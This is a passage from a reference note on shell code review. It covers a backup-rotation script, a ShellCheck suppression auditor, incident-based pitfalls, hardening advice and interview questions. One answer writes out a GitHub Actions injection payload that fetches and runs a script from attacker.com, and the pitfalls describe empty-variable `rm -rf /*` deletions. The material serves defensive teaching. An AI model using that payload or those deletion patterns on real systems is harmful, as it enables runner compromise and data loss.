  echo "usage: rotate.sh [-n] DIR KEEP" >&2
  exit 2
}

dry=0
if [ "${1-}" = "-n" ]; then
  dry=1
  shift
fi
[ "$#" -eq 2 ] || usage
dir=$1
keep=$2
[ -n "$dir" ] || usage
# KEEP is a decimal count: digits only, no leading zero (bash and dash read 08 as bad octal), at most 9 digits.
case $keep in
  '' | *[!0-9]* | 0?*) usage ;;
  *) ;;
esac
[ "${#keep}" -le 9 ] || usage
if [ ! -d "$dir" ]; then
  echo "rotate.sh: not a directory: $dir" >&2
  exit 1
fi

# The glob is sorted by the shell; with no match it stays literal, so test the first word.
set -- "$dir"/backup-*.tar
if [ ! -e "$1" ] && [ ! -L "$1" ]; then
  exit 0
fi
excess=$(($# - keep))
while [ "$excess" -gt 0 ]; do
  if [ "$dry" -eq 1 ]; then
    printf 'would remove %s\n' "$1"
  else
    rm -f -- "$1"
  fi
  shift
  excess=$((excess - 1))
done
```

Running `sh rotate.sh -n backups 1` against a directory `backups` holding three backups (`backup-20261101.tar` to `backup-20261103.tar`) prints the dry-run list and deletes nothing (run on the macOS host, 2026-11-27; lab test 7 pins the same output and then checks that a real run removes exactly those files):

```
would remove backups/backup-20261101.tar
would remove backups/backup-20261102.tar
```

To enforce auditability, `suppression-audit.sh` scans shell scripts for `# shellcheck disable=` directives lacking explanatory justification comments:

```sh
#!/bin/sh
# suppression-audit.sh [-m MAX] FILE...: list ShellCheck suppressions that carry no reason.
# A directive is a comment line "# shellcheck disable=SC1234,SC5678 # why this is safe";
# the text after the second # is the reason. Other directives (source=, shell=, enable=) are ignored.
# Prints "FILE:LINE: no reason for CODES" per unexplained directive, then
# "suppressions=N unexplained=M" where N counts codes. With -m, N above MAX is also a failure,
# which makes the suppression count a ratchet that review can only tighten.
# Exit status: 0 clean, 1 unexplained or over MAX, 2 usage error or unreadable file.
max=
case ${1-} in
  -m)
    max=${2-}
    case $max in
      '' | *[!0-9]*)
        echo "suppression-audit.sh: -m needs a number" >&2
        exit 2
        ;;
      *) ;;
    esac
    shift 2
    ;;
  *) ;;
esac
if [ "$#" -eq 0 ]; then
  echo "usage: suppression-audit.sh [-m MAX] FILE..." >&2
  exit 2
fi

total=0
unexplained=0
for file in "$@"; do
  if [ ! -r "$file" ]; then
    echo "suppression-audit.sh: cannot read $file" >&2
    exit 2
  fi
  n=0
  # The || test keeps a last line that has no trailing newline.
  while IFS= read -r line || [ -n "$line" ]; do
    n=$((n + 1))
    body=${line#"${line%%[![:space:]]*}"}
    case $body in
      '#'*) ;;
      *) continue ;;
    esac
    body=${body#'#'}
    body=${body#"${body%%[![:space:]]*}"}
    case $body in
      'shellcheck '*disable=*) ;;
      *) continue ;;
    esac
    rest=${body#*disable=}
    codes=${rest%%[[:space:]]*}
    after=${rest#"$codes"}
    reason=
    case $after in
      *'#'*) reason=${after#*'#'} ;;
      *) ;;
    esac
    # Count the comma-separated codes without field splitting (native zsh does not split).
    list=$codes
    while [ -n "$list" ]; do
      total=$((total + 1))
      case $list in
        *,*) list=${list#*,} ;;
        *) list= ;;
      esac
    done
    # A reason is any non-blank text after the second #.
    case $reason in
      *[![:space:]]*) ;;
      *)
        unexplained=$((unexplained + 1))
        printf '%s:%d: no reason for %s\n' "$file" "$n" "$codes"
        ;;
    esac
  done <"$file"
done

printf 'suppressions=%d unexplained=%d\n' "$total" "$unexplained"
if [ -n "$max" ] && [ "$total" -gt "$max" ]; then
  printf 'suppressions=%d exceeds max=%d\n' "$total" "$max"
  exit 1
fi
[ "$unexplained" -eq 0 ]
```

Executing `sh suppression-audit.sh sample.sh` against the nine-line fixture of lab test 35 (after the shebang: two `disable=` directives without a reason, two with one, and four lines the tool must skip: a `source=` directive, a `shell=` directive, prose that mentions `disable=`, and a `disable=` comment that trails a command) outputs the following and exits 1 (run on the macOS host, 2026-11-27):

```
sample.sh:2: no reason for SC2086
sample.sh:7: no reason for SC2155
suppressions=5 unexplained=2
```

## Pitfalls

> [!warning] Unchecked path calculation yielding root deletion (Valve Steam launcher incident)
> Trigger: An unverified directory calculation `${0%/*}` executed inside a command substitution without checking the exit status of `cd`, followed by `rm -rf "$STEAMROOT/"*`.
> Symptom: When the script was executed via bare command name, `${0%/*}` evaluated to the filename itself, `cd` failed, `STEAMROOT` expanded to an empty string, and the command became `rm -rf /*`, deleting all user-accessible files on the host (Valve Software GitHub issue 3671, 2015-01-14).
> Fix: Explicitly handle bare script names in a `case` pattern, assert directory change success (`cd ... || exit 1`), and guard parameter expansion with `${STEAMROOT:?}` so an unset or empty parameter halts shell execution immediately before `rm` is invoked.

> [!warning] Obfuscated shell scripts concealing build-time supply chain backdoors (XZ Utils, CVE-2024-3094)
> Trigger: Deeply nested m4 macros and multi-stage shell scripts embedded in build-time autoconf artifacts extracting binaries from disguised test files.
> Symptom: Injection of malicious shared object payload modifying OpenSSH authentication routines during upstream tarball builds (CVE-2024-3094, March 2024, analyzed by Russ Cox).
> Fix: Staff-level review gate Q0 rejects complex shell scripting, string manipulation of binary payloads, and multi-stage subshell pipelines in release builds; build pipelines must use declarative, hermetic toolchains with verifiable cryptographic provenance.

> [!warning] Untrusted workflow context injection in CI/CD pipelines (GitHub Actions)
> Trigger: Direct inline string interpolation of untrusted GitHub Actions expression contexts into `run:` shell blocks: `run: echo "Title: ${{ github.event.pull_request.title }}"`.
> Symptom: Pull request titles containing shell metacharacters execute arbitrary shell commands inside runner environments with workflow privileges (GitHub Docs, secure use reference for GitHub Actions, script injection section).
> Fix: Never interpolate untrusted GitHub context expressions into shell script strings; map untrusted fields into intermediate environment variables (`env: TITLE: ${{ github.event.pull_request.title }}`) and expand them quoted as `"$TITLE"` inside the script.

> [!warning] Dynamic errexit deactivation inside conditional function calls
> Trigger: Invoking a mutation or deployment function as a conditional expression: `if deploy_release; then ...`.
> Symptom: GNU bash sets `CMD_IGNORE_RETURN` and dash sets `EV_TESTED` across the entire AST of `deploy_release`, causing intermediate commands to fail silently without triggering `set -e` aborts (POSIX.1-2024 XCU 2.15).
> Fix: Never evaluate side-effecting functions inside conditional lists (`if`, `while`, `until`, `&&`, `||`); run the function as an independent command under `set -e`, or append explicit `|| return 1` error propagation to every fallible statement.

> [!warning] Exit status masking by variable declaration builtins (SC2155)
> Trigger: Combining declaration builtins with command substitution: `export AUTH_TOKEN=$(vault_login)` or `local CONFIG=$(cat /etc/app.conf)`.
> Symptom: The command substitution fails with status 1, but `export` or `local` returns exit status 0, masking the failure and allowing execution to proceed with empty configuration under `set -e` (POSIX.1-2024 XCU 2.15 `export`, ShellCheck SC2155).
> Fix: Separate declaration and assignment into two independent statements: `AUTH_TOKEN=$(vault_login)` followed by `export AUTH_TOKEN`.

## Security and robustness

Reviewing shell for production deployment requires treating every script as an unmanaged binary operating on untrusted data.
A reviewer evaluates six security and robustness dimensions before approving any script.

First, parameter expansion must enforce strict blast radius boundaries.
Destructive operations such as `rm`, `find -delete`, and `mkfs` must never rely on bare parameter expansions like `"$VAR"`.
A variable that evaluates to null or empty due to an upstream failure turns `rm -rf "$VAR/"*` into a recursive root deletion.
The parameter expansion `${VAR:?error message}` is a mandatory contract: if `VAR` is unset or null, the shell immediately prints the diagnostic and terminates with non-zero exit status (POSIX.1-2024 XCU 2.6.2).
Destructive commands must also provide dry-run inspection seams (`-n`) so operational commands can be validated before execution.

Second, option parsing boundaries must be explicitly terminated with `--`.
Every command accepting external or variable input as arguments must end option processing with `--` before operands: `rm -f -- "$file"`.
Without `--`, a filename beginning with a leading hyphen (such as `-r` or `-f`) is parsed by the utility as a flag rather than a path.
The single exception in POSIX utilities is `cd`: POSIX `cd` treats the operand `-` as an instruction to switch to `OLDPWD`, and `--` does not change that because `-` is still an operand, so XCU `cd` APPLICATION USAGE recommends a `case` instead of `CDPATH= cd -P -- "$dir"`.
Safe path navigation must normalize relative paths to begin with `./` or `/` and reject an empty string, rather than passing bare names to `cd`.

Third, the execution environment must be strictly sanitized.
A shell script inherits ambient environment variables that alter lexical parsing and command resolution.
A production script must reset `IFS` to standard whitespace, with `unset IFS` or a literal space, tab, and newline, to prevent delimiter poisoning; `IFS=$(printf ' \t\n')` does not work, because command substitution strips the trailing newline (measured in the shell matrix), so use the sentinel form `IFS=$(printf ' \t\n_'); IFS=${IFS%_}`.
Scripts must never rely on `CDPATH`, which silently redirects relative directory changes and emits path strings to standard output.
In addition, `PATH` should be explicitly assigned to trusted system directories to defend against [[PATH-Hijacking]].
Umask should be initialized explicitly via `umask 027` or `umask 077` whenever temporary files or directories are created.

Fourth, dynamic code evaluation is completely forbidden.
The builtins `eval`, `sh -c`, and inline SSH invocations concatenate strings into the parser, converting untrusted input into arbitrary code execution.
If command dispatch requires dynamic arguments, positional parameters (`set --`) or arrays (in bash/zsh) must transport arguments as distinct vector elements.
No untrusted user data may ever be concatenated into an evaluation string.

Fifth, execution privilege boundaries must be enforced.
SUID and SGID bits on shell scripts are explicitly forbidden by Google and modern security standards; Linux kernels ignore SUID on `#!` scripts entirely (Linux v6.12 source, as of 2026-11).
`load_script()` in `fs/binfmt_script.c` does not compute credentials; it opens the interpreter with `open_exec()` and stores it in `bprm->interpreter`.
The loop in `exec_binprm()` in `fs/exec.c` then swaps `bprm->file` to the interpreter and searches again, and the interpreter's loader calls `begin_new_exec()`, which calls `bprm_creds_from_file()`, which calls `bprm_fill_uid()` on `bprm->file`.
So `S_ISUID` is read from the interpreter's inode, never from the script's (the `binfmt_misc` credentials flag, `execfd_creds`, is the one exception, and is administrator-configured).
Scripts running in automation or CI/CD pipelines must run as unprivileged service accounts with read-only root filesystems where practical.
Temporary directories must be created with `mktemp -d` and bound to traps to prevent temporary file symlink races and resource exhaustion.

Sixth, static analysis suppressions must be tracked as audited technical debt.
Every `# shellcheck disable=` comment represents a deliberate hole in the automated safety net.
Reviewers must reject any suppression directive that lacks an explanatory justification comment on the same line.
Continuous integration should enforce a suppression ratchet using `suppression-audit.sh -m MAX`, ensuring the count of suppressions in the repository never increases without explicit architectural approval.

## The principal's view

A staff-plus engineer approaches shell code review not as a linter, but as an organizational risk manager and language gatekeeper.
The central architectural reality of shell is an asymmetry between authoring cost and verification cost.
A shell script is deceptively rapid to write as a prototype, but proving its correctness across diverse environments is mathematically and operationally expensive.
Shell possesses no static type system, no structured exception model, no compile-time variable validation, and an ambient execution model where global state can alter line semantics.

Consequently, the principal engineer's primary duty in shell review is enforcing language boundaries.
When a script exceeds approximately 100 lines, requires complex state tracking, implements retry logic with backoff, parses structured data like JSON or YAML, or processes high-value transactional state, the correct review decision is to mandate a rewrite in Go, Python, or Rust.
Approving a 400-line shell script saddling the organization with long-term maintenance debt is a failure of technical leadership.

When shell is the appropriate tool - specifically for small, linear integration glue connecting external command-line binaries - the principal engineer establishes institutional invariants.
The principal ensures human reviewers never waste cognitive bandwidth debating indentation, quoting flags, or syntax dialect.
Instead, automated CI gates must run `shfmt`, ShellCheck, bats-core, and cross-shell test matrices prior to human review.
The human reviewer's attention is reserved exclusively for the invariants no machine can verify: language selection, failure blast radius, errexit dynamic propagation traps, resource lifecycle cleanup, and regression evidence.

## Interview questions

> [!question] L5: Predict the output and exit status of this script executed under strict mode: `set -e; export v=$(false); echo "survived: $v"`
>
> > [!success]- Answer
> > The script prints `survived: ` and exits with status 0.
> > Under POSIX.1-2024 XCU 2.15, the `export` utility returns an exit status of 0 when parameter assignments succeed, regardless of whether a command substitution inside the assignment failed.
> > The non-zero exit status of `$(false)` is masked by `export`, preventing `set -e` from aborting the shell.
> > To avoid masking failures, the assignment and export must be separated into `v=$(false)` followed by `export v`.
> >
> > Follow-up: How does ShellCheck identify this defect, and why does `local v=$(false)` exhibit the same failure masking?

> [!question] L5: Why does the command `rm -rf "$DIR/"*` pose a catastrophic blast-radius risk, and why does GNU `rm --preserve-root` fail to mitigate it?
>
> > [!success]- Answer
> > If `DIR` is unset or evaluates to an empty string, `"$DIR/"*` expands to `/*`.
> > Pathname expansion replaces the pattern with all top-level entries in the root filesystem: `/bin`, `/etc`, `/home`, `/usr`, and others.
> > GNU `rm --preserve-root` protects only the root directory itself when `/` is passed directly as an argument operand (`rm -rf /`).
> > Because `/*` expands to individual subdirectories rather than `/`, `rm` removes every top-level subdirectory without triggering `--preserve-root`.
> > The defensive fix is to expand the variable as `"${DIR:?}/"*` so the shell aborts immediately if `DIR` is null or unset (XCU 2.6.2).
> >
> > Follow-up: How does setting `set -o noglob` alter this command's behavior during debugging or logging?

> [!question] L6: Debug this script: a developer wrote a backup rotation utility containing `cd $dir; for f in $(ls -t backup-* | tail -n +$((keep + 1))); do rm $f; done`. Identify the five distinct defects and how to fix them.
>
> > [!success]- Answer
> > The first defect is unquoted `cd $dir`, which word-splits directories with spaces and changes directory to `$HOME` when `$dir` is empty.
> > The second defect is parsing `$(ls -t ...)`, which splits filenames containing spaces or newlines into separate loop iterations.
> > The third defect is ordering by modification time via `ls -t`, which is rewritten whenever a backup is restored, copied, or touched.
> > The fourth defect is unquoted and unescaped `rm $f`, which splits whitespace filenames and treats filenames beginning with a hyphen as command options.
> > The fifth defect is unvalidated arithmetic `$((keep + 1))`, which executes arbitrary code if `keep` contains expressions and fails with syntax errors if `keep` has leading zeros like `08`.
> > The fix is to avoid `cd`, use shell globs `set -- "$dir"/backup-*.tar` sorted by timestamped filename, validate `keep` with a decimal digit `case` pattern, and execute `rm -f -- "$1"`.
> >
> > Follow-up: How do you implement a dry-run flag (`-n`) that guarantees the files printed during dry run match the exact files deleted during live execution?

> [!question] L6: In GNU bash and dash, what happens to errexit when a function is executed inside an `if` conditional (e.g. `if my_func; then ...`), and what is the underlying C implementation mechanism?
>
> > [!success]- Answer
> > When a function is called as an `if` condition, `set -e` is dynamically disabled across the entire execution tree of that function.
> > If a command inside `my_func` fails, the function does not abort; instead, execution continues to subsequent lines inside the function body.
> > In GNU bash (`execute_cmd.c`), the evaluation engine sets the `CMD_IGNORE_RETURN` flag on conditional tests and copies this bit to the function AST flags in `execute_function`.
> > In dash (`src/eval.c`), `evaltree` passes the `EV_TESTED` bit down through `flags` to `evalfun`, suppressing `goto exexit`.
> > To make a function fail-fast when called conditionally, every fallible statement inside the function must explicitly append `|| return 1`.
> >
> > Follow-up: How does this dynamic flag propagation affect commands running in the left-hand operand of an `&&` or `||` list?

> [!question] L6: How can an inherited `CDPATH` environment variable corrupt script execution, and what is the POSIX-compliant defense?
>
> > [!success]- Answer
> > When `CDPATH` is set in the environment, a relative directory change `cd target` searches each colon-separated prefix in `CDPATH` before searching the current working directory.
> > If a matching directory name exists in a `CDPATH` prefix, the shell switches to that unexpected directory instead of the intended local subdirectory.
> > Furthermore, POSIX.1-2024 XCU `cd` mandates that whenever `cd` successfully navigates using a non-empty `CDPATH` component, it must write the absolute pathname to standard output.
> > This unexpected standard output corrupts scripts capturing command substitution output from directory navigation functions.
> > The POSIX-recommended defense (XCU `cd`, APPLICATION USAGE) is a `case` that passes an absolute path to `cd -P` unchanged, rejects an empty string, and runs a relative one as `CDPATH= cd -P "./$dir"`; the shorter `CDPATH= cd -P -- "$dir"` clears the search path but still treats an operand of `-` as `OLDPWD`.
> >
> > Follow-up: Why does `--` not protect `cd` from an operand of `-`?

> [!question] L7: Why does POSIX `set -e` fail to provide true exception-handling semantics, and how must a distributed systems script handle partial failure and cleanup?
>
> > [!success]- Answer
> > POSIX `set -e` is an unprincipled failure abort mechanism rather than an exception handling runtime.
> > It does not provide stack unwinding, typed error propagation, try-catch blocks, or deterministic resource cleanup boundaries.
> > Under POSIX.1-2024 XCU 2.15, errexit is ignored for non-final pipeline stages, the conditions of `if`, `elif`, `while`, and `until`, every command of an AND-OR list but the last, and pipelines beginning with `!`, and the suppression extends into every function called from those positions; default-mode bash and BusyBox ash also drop it inside command substitutions, although POSIX says the substitution's subshell keeps it.
> > A pipeline failure in the middle of a command chain is ignored unless `pipefail` is explicitly supported and active.
> > For robust distributed systems orchestration, scripts must install an explicit `trap 'cleanup' EXIT` handler to manage resource reclamation.
> > Complex operations must verify every exit status explicitly (`cmd || { log_error; return 1; }`) and decouple state mutations into idempotent, recoverable phases.
> >
> > Follow-up: How do signal trap handlers interact with subshells and background job groups during a graceful shutdown sequence?

> [!question] L7: In a GitHub Actions workflow, why is inlining `${{ github.event.issue.body }}` directly into a `run: bash` step considered a critical security vulnerability, and how should CI/CD runners enforce execution boundaries?
>
> > [!success]- Answer
> > GitHub Actions evaluates `${{ ... }}` expressions as template preprocessing strings before the shell interpreter is spawned.
> > An attacker submitting an issue body containing `"; curl attacker.com/exfil.sh | sh; echo "` injects raw shell metacharacters directly into the script body.
> > The runner writes the expanded string to a temporary `.sh` file and executes it, granting the attacker arbitrary code execution with runner credentials.
> > The mandatory security architecture requires passing all untrusted workflow contexts through environment variables: `env: BODY: ${{ github.event.issue.body }}`.
> > Inside the shell step, the value is expanded exclusively as a quoted parameter `"$BODY"`, ensuring the parser treats the input strictly as data rather than executable tokens.
> >
> > Follow-up: How do you configure a repository linter to block pull requests containing direct expression interpolation inside `run:` blocks?

> [!question] L7+: An infrastructure team proposes a 500-line shell script to orchestrate multi-datacenter database failovers with lockfiles, retries, and REST API calls via `curl`. As a principal engineer, what is your review verdict, what architectural trade-offs do you present, and what organizational policy do you enforce?
>
> > [!success]- Answer
> > The review verdict is a definitive rejection of shell for this operational domain, mandating a rewrite in Go or Python.
> > Shell provides no native data structures for JSON parsing, requiring fragile string manipulation via `grep`, `sed`, or `jq` that breaks on API schema variations.
> > Error handling in shell cannot safely model partial network partitions, exponential backoff with jitter, or distributed consensus state machines.
> > Lockfile implementations in shell using `mkdir` or `flock` are vulnerable to stale lock accumulation, unhandled signal termination, and split-brain states across datacenters.
> > The organizational policy enforces the Google Shell Style Guide boundary: shell is restricted to linear utility wrappers under 100 lines.
> > Any service orchestrating stateful distributed failovers or financial transactions must use a compiled, memory-safe language with structured concurrency, telemetry, and explicit error types.
> >
> > Follow-up: What automated verification gates (linters, static analyzers, test runners) do you mandate in CI to enforce this policy before code reaches human review?

## Related

Prerequisites: [[Cross-Shell-CI-Matrices]]

Next: [[ShellCheck-Internals]], [[ShellCheck-Warning-Families]]

See also: [[shfmt]], [[bats-core]], [[bats-Helpers-and-Assertions]], [[ShellSpec]], [[shUnit2]], [[Mocking-Commands-via-PATH]], [[Golden-Output-Tests]], [[Characterization-Tests-for-Legacy-Scripts]], [[Coverage-with-kcov]], [[Field-Splitting-and-IFS]], [[The-set-Builtin-and-Shell-Options]], [[Unofficial-Strict-Mode-Critique]], [[Argument-Injection-and-Double-Dash]], [[Quoting-Across-Tool-Boundaries]], [[The-eval-Builtin]], [[eval-and-sh-c]], [[Cleanup-Traps-and-Re-Raising-Signals]], [[Traps-and-EXIT]], [[Locking-and-Stale-Locks]], [[Temporary-File-Attacks]], [[Safe-rm-and-Destructive-Operations]], [[Idempotent-Scripts]], [[PATH-Hijacking]], [[inherit_errexit-and-errtrace]], [[errexit-Semantics-and-Exceptions]], [[Dry-Run-and-Apply]]

## Further reading

- POSIX.1-2024 Shell Command Language (XCU Chapter 2): The authoritative international standard defining token recognition, parameter expansion, command substitution, and errexit execution rules.
- GNU Bash Reference Manual & Source Code (`execute_cmd.c`): Definitive reference on `CMD_IGNORE_RETURN`, `inherit_errexit`, and the internal abstract syntax tree execution semantics of bash.
- Dash Source Code (`src/eval.c`): The lightweight, strictly POSIX implementation illustrating `EV_TESTED` flag propagation and minimal shell architecture.
- Google Shell Style Guide: Authoritative industry guidance establishing language boundaries, the 100-line script limit, and coding standards for production scripts.
- ShellCheck Documentation and Bug Tracker (Vidar Holen): The primary reference catalog for static analysis warnings, AST parsing pitfalls, and masking hazards.
- Valve Software GitHub Issue #3671 Postmortem: Concrete real-world incident postmortem documenting the catastrophic deletion bug caused by unverified path variables and failed `cd`.
- CVE-2024-3094 Technical Analysis (Russ Cox, research.swtch.com/xz-script): Detailed technical dissection of the xz backdoor demonstrating the severe security risks of obfuscated shell scripts in build pipelines.
- GitHub Actions Security Hardening Guide: Official documentation detailing script injection vectors from untrusted workflow context expressions.
